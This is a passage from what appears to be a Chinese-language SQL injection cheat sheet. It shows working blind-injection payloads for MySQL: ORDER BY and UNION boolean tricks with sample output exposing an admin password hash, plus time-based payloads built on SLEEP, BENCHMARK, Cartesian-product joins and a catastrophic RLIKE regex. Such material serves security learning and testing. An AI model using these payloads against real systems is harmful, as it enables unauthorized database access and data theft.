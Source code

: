 **`mid(user() from 1 for 1)='r'`**

**`mid(user() from 1)='r'`**

**`ASCII()`、`ORD`和`CHAR()`函数一般用做辅助**

**利用 order by 盲注**

```mysql
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
    
mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)
```

**这种注入一般出现在登录处，形成`bool`条件。这里只获取`password`的值，也可以跟多个`UNION`查询其他的数据，此方法优点在于不使用括号等字符。利用`order by` 姿势很多，自由发挥**

#### 延时注入

**一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：**

- **SLEEP(n)让mysql停n秒钟**
- **BENCHMARK(count,expr)重复countTimes次执行表达式expr，如`BENCHMARK(100000,MD5(1))`**

**`BENCHMARK()`用于测试函数的性能，参数一为次数，参数二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的CPU资源。推荐使用`sleep()`**

**一些注意事项：**

- **使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境**
- **时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时**
- **当在页面上看不到任何明显变化时，再考虑选择使用延时注入**

**相对于bool盲注，就是把返回值0和1改成是否执行延时，能用其他方法就不要使用延时**

**一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`**

**如果这两个函数ban掉的话可以利用笛卡尔积造成延迟来进行注入**

**`' and if(ascii(substr((select database()),%d,1))<%d,(select count(*) from information_schema.columns A, information_schema.columns B,information_schema.tables C),1) #`**

**另外还可以利用不正确的正则表达式来**

**`select if(substr((select 1)='1',1,1),concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',1);`**
